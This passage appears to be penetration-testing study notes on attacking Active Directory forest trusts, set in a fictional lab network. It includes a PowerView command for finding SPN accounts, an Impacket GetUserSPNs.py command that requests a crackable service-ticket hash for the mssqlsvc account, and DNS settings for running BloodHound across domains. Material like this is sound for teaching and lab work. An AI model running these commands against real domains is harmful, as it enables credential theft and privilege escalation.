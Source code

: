 ### Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.  

Using PowerView to enumerate accounts with SPNs in a target domain:
```Powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL -Server 172.16.5.238 -Credential $cred | select SamAccountName
```

We can use the -target-domain flag with `GetUserSPN.py` to do a cross-forest kerberoast:  
```sh
# The IP address of the FREIGHTLOGISTICS.LOCAL DC is 172.16.5.238
# Need to add 172.16.5.238 FREIGHTLOGISTICS.LOCAL to /etc/hosts
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.local/wley -request-user mssqlsvc -outputfile mssqlsvc_tgs_hash
```

### Foreign Group Membership

It is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bi-directional forest trust relationship.  

You can use BloodHound on both Domains to enumerate these types of things. This will require adding the FQDN and IP to /etc/hosts. A better way to do this is actually to add the domain to /etc/resolv.conf like so:
```
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
